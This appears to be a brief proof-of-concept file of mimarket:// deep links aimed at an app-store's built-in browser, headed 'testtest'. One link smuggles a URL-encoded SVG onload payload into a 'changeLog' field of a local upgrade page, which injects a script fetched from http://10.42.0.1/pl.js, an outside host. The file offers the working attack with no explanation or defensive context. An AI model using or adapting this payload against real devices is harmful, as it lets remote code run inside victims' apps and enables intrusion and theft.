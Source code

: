 # testtest


<mimarket://browse?title=aaa&url=target>

<mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo={"changeLog":"<svg onload%3D\"javascript:j%3Ddocument.createElement('script');j.src%3D'http://10.42.0.1/pl.js';document.getElementsByTagName('head')[0].appendChild(j);\" xmlns%3D\"http://www.w3.org/2000/svg\"></svg>"}&title=butts>

<mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo=&title=butts>
